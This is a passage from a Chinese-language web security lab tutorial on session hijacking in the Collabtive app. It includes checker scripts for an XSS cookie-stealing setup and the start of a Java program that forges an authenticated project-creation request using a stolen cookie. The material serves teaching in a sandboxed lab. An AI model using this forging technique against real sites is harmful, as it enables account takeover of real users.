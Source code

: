 ```checker
    #!/bin/bash
    stat -c %a /var/www/XSS/Collabtive/cookie.txt|grep 777
  error: cookie.txt 权限配置不对
- name: check manageruser.php content
  script: |
    #!/bin/bash
    grep "hack.php" /var/www/XSS/Collabtive/manageuser.php
  error: manageusr.php 配置不对
```

### lab4 使用获取的Cookie进行会话劫持 

当获取了受害者的Cookie以后，我们可以干嘛呢？可以利用Cookie登录用户，也就是会话劫持；

>会话劫持：窃取受害者的cookie后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者创建一个新项目,发帖子,删除等等。从本质上讲, 就是劫持受害者的会话。

首先：我们查看受害者创建项目时候的请求：

这里使用的工具是之前提到的 `live http headers` 工具，点击浏览器的 tools-》add-ones ，在搜索框输入 live http header 就可以找到，点击 install 即可安装，安装后重启浏览器就可以了。我这里是已经安装了，截图如下：

![3.4-1](https://dn-simplecloud.shiyanlou.com/uid/8797/1524647286699.png-wm)

为避免之前登录过的影响，我们先清理一下浏览器历史，点击 History-》Clear Recent History ：

![3.4-2](https://dn-simplecloud.shiyanlou.com/uid/8797/1524647662626.png-wm)

然后点击浏览器 tools-》 live http headers，打开之前添加的工具。再输入 www.xsslabcollabtive.com 访问并登录。就可以在 live http headers 的窗口看到很多类似如下的内容。当然，你的显示内容跟我的有些地方可能不一样。

![3.4-3](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159724192?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

当攻击者知道了创建项目的请求以后，就可以编写一个Java程序发送相同的HTTP请求达到创建项目的目的，当然还可以进行其他的请求：

>HTTP访问请求：

>1、打开一个连接到web服务器。

>2、设置必要的HTTP头信息。

>3、发送请求到web服务器。

>4、得到来自web服务器的响应。

在 /home/shiyanlou 目录下新建一个 HTTPSimpleForge.java 的文件，内容如下（**注意：根据你自己所得的 live http header 内容来，下面的代码需要变通** ）：


```java
    import java.io.*;
    import java.net.*;
    public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
    int responseCode;
    InputStream responseIn=null;
    // URL to be forged.
    URL url = new URL ("http://www.xsslabcollabtive.com/admin.php?action=addpro");
    // URLConnection instance is created to further parameterize a
    // resource request past what the state members of URL instance
    // can represent.
    URLConnection urlConn = url.openConnection();
    if (urlConn instanceof HttpURLConnection) {
    urlConn.setConnectTimeout(60000);
    urlConn.setReadTimeout(90000);
    }
    // addRequestProperty method is used to add HTTP Header Information.
    // Here we add User-Agent HTTP header to the forged HTTP packet.
    // Add other necessary HTTP Headers yourself. Cookies should be stolen
```